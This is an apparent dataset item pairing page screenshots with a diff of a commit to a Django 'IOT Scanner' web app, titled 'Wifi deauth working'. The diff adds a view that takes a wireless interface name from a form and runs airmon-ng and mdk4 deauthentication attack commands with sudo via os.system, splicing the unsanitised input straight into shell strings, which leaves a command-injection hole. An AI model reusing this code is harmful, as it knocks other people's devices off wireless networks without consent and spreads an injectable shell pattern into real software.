

Before and after one commit to BatukeshwarVats/iotweb, a Django app: page /ui/wifi/ in a window 1280 px wide. Shown: the top 300 px of the page. Run offline with Django 3.2, Linux system fonts and the light colour scheme.

Commit message:
Wifi deauth working

```diff
--- a/templates/iotweb/index.html
+++ b/templates/iotweb/index.html
@@ -12,7 +12,7 @@
     <a href="http://127.0.0.1:8000/" class="w3-bar-item w3-button"><b>IOT</b> Scanner</a>
     <!-- Float links to the right. Hide them on small screens -->
     <div class="w3-right w3-hide-small">
-      <a href="http://127.0.0.1:8000/ui/ip" class="w3-bar-item w3-button">IP Checkup</a>
+      <a href="http://127.0.0.1:8000/ui/ip_check" class="w3-bar-item w3-button">IP Checkup</a>
       <a href="http://127.0.0.1:8000/ui/wifi" class="w3-bar-item w3-button">Wifi Deauth.</a>
       <a href="http://127.0.0.1:8000/ui/ps" class="w3-bar-item w3-button">Port Scanner</a>
       <a href="http://127.0.0.1:8000/ui/mitm" class="w3-bar-item w3-button">MITM</a>
--- a/templates/ui/basic.html
+++ b/templates/ui/basic.html
@@ -12,7 +12,7 @@
     <a href="http://127.0.0.1:8000/" class="w3-bar-item w3-button"><b>IOT</b> Scanner</a>
     <!-- Float links to the right. Hide them on small screens -->
     <div class="w3-right w3-hide-small">
-      <a href="http://127.0.0.1:8000/ui/ip" class="w3-bar-item w3-button">IP Checkup</a>
+      <a href="http://127.0.0.1:8000/ui/ip_check" class="w3-bar-item w3-button">IP Checkup</a>
       <a href="http://127.0.0.1:8000/ui/wifi" class="w3-bar-item w3-button">Wifi Deauth.</a>
       <a href="http://127.0.0.1:8000/ui/ps" class="w3-bar-item w3-button">Port Scanner</a>
       <a href="http://127.0.0.1:8000/ui/mitm" class="w3-bar-item w3-button">MITM</a>
@@ -24,5 +24,6 @@
     </div>
   </div>
 </div>
+{% block body %} {% endblock %}
 </body>
 </html>
--- a/templates/ui/wifi.html
+++ b/templates/ui/wifi.html
@@ -1,2 +1,22 @@
 {% extends 'ui/basic.html' %}
 {% block title%} WIFI DEAUTH ATTACK{% endblock %}
+
+{% block body %}
+<br>
+<br>
+<br>
+<br>
+<div class="container my-3" style="margin-left: 20%;">
+    <h3>Contact Us</h3>
+    <form action="/ui/wifi_deauth/" method="post">{% csrf_token %}
+  <div class="form-group">
+    <label for="iface">First Name</label>
+    <input type="text" class="form-control" id="iface" name='iface' placeholder="Enter Your Interface.">
+  </div>
+        <button type="submit" class="btn btn-success">Submit</button>
+</form>
+
+
+
+</div>
+{% endblock %}
--- a/ui/urls.py
+++ b/ui/urls.py
@@ -5,8 +5,9 @@ from django.contrib import admin
 
 urlpatterns=[
     path('',views.index,name='uihome'),
-    path('ip/',views.ip_check,name='uihome'),
+    path('ip_check/',views.ip_check,name='uihome'),
     path('wifi/',views.wifi,name='wifi_deauth'),
+    path('wifi_deauth/',views.wifi_deauth,name='wifi_deauth'),
     path('mitm/',views.mitm,name='mitm'),
     path('mirai/',views.mirai,name='mirai'),
     path('ns/',views.net,name='net_scan'),
--- a/ui/views.py
+++ b/ui/views.py
@@ -1,11 +1,36 @@
 from django.shortcuts import render,get_object_or_404
+from django.http import HttpResponse
+import os
+import subprocess
 
 def index(request):
     return render(request,'ui/index.html')
 def  ip_check(request):
-    return render(request,'ui/ip_check.html')
+    command="sudo ifconfig"
+    result=subprocess.run(command.split(' '),stdout=subprocess.PIPE)
+    res=result.stdout.decode('utf-8')
+    print(" Result is",type(res))
+    return render(request,'ui/ip_check.html',{"res":str(res)})
 def wifi(request):
     return render(request,'ui/wifi.html')
+
+def wifi_deauth(request):
+    if request.method=="POST":
+        interface=request.POST.get('iface','')
+        print(interface)
+        print("hello")
+        y="xterm -hold -e sudo airmon-ng start "+interface
+        print("hi")
+        os.system(y)
+        os.system("xterm -hold -e sudo airmon-ng check kill")
+        z="xterm -hold -e sudo mdk4 "+interface+"mon d"
+        os.system(z)
+        print("hfdjhkj")
+        i="xterm -hold -e sudo airmon-ng stop "+interface+"mon"
+        os.system(i)
+        os.system("sudo service network-manager restart")
+        return render(request,'ui/deauth.html')
+
 def ps(request):
     return render(request,'ui/ps.html')
 def mitm(request):
```
Also changed, not shown: templates/ui/deauth.html (added, +8 -0 lines), templates/ui/ip.html (added, +11 -0 lines), templates/ui/ip_check.html (+12 -2 lines), iotweb/views.py (line endings or trailing spaces).
